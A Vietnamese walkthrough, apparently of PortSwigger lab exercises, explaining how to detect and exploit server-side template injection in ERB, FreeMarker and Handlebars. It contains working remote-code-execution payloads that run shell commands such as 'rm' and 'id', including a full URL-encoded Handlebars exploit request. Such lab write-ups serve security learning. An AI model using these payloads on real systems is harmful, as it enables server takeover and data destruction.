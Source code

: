 # 1. Basic server-side template injection
Khi xem product với id=1, nhận thấy message "Unfortunately this product is out of stock" được hiển thị, và url có dụng `/?message=....`. Thử với `/?message=<%=7*7%>` thì phần message hiển thị 49. Như vậy website có lỗi SSTI.

Lab description cho ta biết website sử dụng ERB template, như vậy ta chuyển đến URL `/?message=<%=system("rm /home/carlos/morale.txt")` để xóa file morale.txt. Kết quả thành công.

# 2. Basic server-side template injection (code context)

# 3. Server-side template injection using documentation
Đăng nhập với credentails "content-manager:C0nt3ntM4n4g3r", ta thấy có chức năng "Edit Template" và có thể Preview sau khi edit. Thử chèn payload `${7*7}` thì trong response có số 49, như vậy website có lỗ hổng SSTI.

Thử chèn `${abc}` thì xuất hiện thông báo lỗi cho ta biết website sử dụng template "freemaker" với ngôn ngữ Java.

![image](https://user-images.githubusercontent.com/103978452/219274969-c5098403-5979-4a8a-aafe-46d20f57f3ba.png)

Sau khi research trên internet, ta tìm được một số payload. Thử chèn `${"freemarker.template.utility.Execute"?new()("id")}` thì kết quả của lệnh id được trả về trong response. Như vậy, để xóa file "morale.txt", ta chèn vào payload `${"freemarker.template.utility.Execute"?new()("rm /home/carlos/morale.txt")}`. Sau khi click Review, bài lab được giải thành công.

# 4. Server-side template injection in an unknown language with a documented exploit
Ta thấy với URL `/?message=abc` thì đoạn text "abc" sẽ được hiển thị trong response. Thử với `{{7*7}}` thì xuất hiện lỗi như sau:

![image](https://user-images.githubusercontent.com/103978452/219276586-6560f565-ba8f-4c84-a7d5-6e4cd0900619.png)

Như vậy ta biết được website sử dụng NodeJs, và sau một số research thì xác định thêm template được sử dụng là "handlebars". Ta tìm được một payload RCE trên Hacktricks như sau:

```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

Thay thế command "whoami" thành "rm /home/carlos/morale.txt", thực hiện URL encoded rồi gán vào tham số "message". Như vậy request như sau:

```
GET /?message=%7b%7b%23with%20"s"%20as%20%7cstring%7c%7d%7d%0d%0a%20%20%7b%7b%23with%20"e"%7d%7d%0d%0a%20%20%20%20%7b%7b%23with%20split%20as%20%7cconslist%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epush%20%28lookup%20string%2esub%20"constructor"%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23with%20string%2esplit%20as%20%7ccodelist%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epush%20"return%20require%28%27child_process%27%29%2eexec%28%27rm%20%2fhome%2fcarlos%2fmorale%2etxt%27%29%3b"%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7bthis%2epop%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23each%20conslist%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23with%20%28string%2esub%2eapply%200%20codelist%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7bthis%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2feach%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%20%20%7b%7b%2fwith%7d%7d%0d%0a%20%20%7b%7b%2fwith%7d%7d%0d%0a%7b%7b%2fwith%7d%7d
```

Sau khi submit, kết quả thành công.

# 5. Server-side template injection with information disclosure via user-supplied objects

# 6. Server-side template injection in a sandboxed environment

# 7. Server-side template injection with a custom exploit
